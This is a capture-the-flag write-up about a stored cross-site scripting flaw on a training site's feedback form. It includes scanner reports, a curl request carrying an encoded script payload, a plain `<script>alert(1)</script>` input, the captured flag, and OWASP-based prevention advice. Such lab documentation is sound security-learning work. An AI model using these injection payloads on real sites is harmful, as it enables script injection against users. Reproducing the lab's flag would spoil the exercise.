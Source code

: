 [README.md](../../../README.md)
# XSS injection feedback page
## Reconnaissance
### ZAP report
```
Risk=High, Confidence=Medium (3)
http://10.13.200.51 (3)
Cross Site Scripting (Persistent) (1)
GET http://10.13.200.51/?page=feedback
Cross Site Scripting (Reflected) (1)
POST http://10.13.200.51/?page=feedback
```

### Wapiti Report
```
XSS vulnerability found via injection in the parameter txtName
POST /?page=feedback HTTP/1.1
Host: 10.13.200.53
Referer: http://10.13.200.53/?page=feedback
Content-Type: application/x-www-form-urlencoded

txtName=%3CScRiPt%3Ealert%28%27wererd0tey%27%29%3C%2FsCrIpT%3E&btnSign=Sign+Guestbook&mtxtMessage=Hi+there%21
curl "http://10.13.200.53/?page=feedback" -e "http://10.13.200.53/?page=feedback" -d "txtName=%3CScRiPt%3Ealert%28%27wererd0tey%27%29%3C%2FsCrIpT%3E&btnSign=Sign+Guestbook&mtxtMessage=Hi+there%21"
```

## Exploit
The most stupid test was successful:
- In the message field input: `<script>alert(1);</script>`
- The flag just pop.

**Flag:**
```
THE FLAG IS : 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E
```

## Prevention
- [Cross Site Scripting (XSS) | OWASP Foundation](https://owasp.org/www-community/attacks/xss/)
    - [Cross Site Scripting Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [CWE - CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') (4.13)](https://cwe.mitre.org/data/definitions/79.html)

XSS is a type of vulnerability where attackers inject malicious scripts into web pages.
Three main types of XSS vulnerabilities:
- **Reflected XSS**: Injected into the website's response.
- **Stored XSS**: Malicious script is stored on the server and then served to all the website users.
- **DOM-based XSS**: Occurs entirely on the user's browser rather than on the server. The payload is never sent to the server

In this case it would be a Stored XSS because the comment is stored and then served to all the users.

### How to prevent
- Modern web frameworks have fewer XSS bugs:
    - React Example: `dangerouslySetInnerHTML` should be explicitely used to be vulnerable
- Implement variable validation and/or sanitization
- Output encoding: variables should not be interpreted as code instead of text.
    - When you wish to display data as the user typed it in, start with your framework’s default output encoding protection.
- HTML Sanitization: will strip dangerous HTML from a variable and return a safe string.
    - [cure53/DOMPurify: DOMPurify - a DOM-only, super-fast, uber-tolerant XSS sanitizer for HTML, MathML and SVG. DOMPurify works with a secure default, but offers a lot of configurability and hooks. Demo:](https://github.com/cure53/DOMPurify)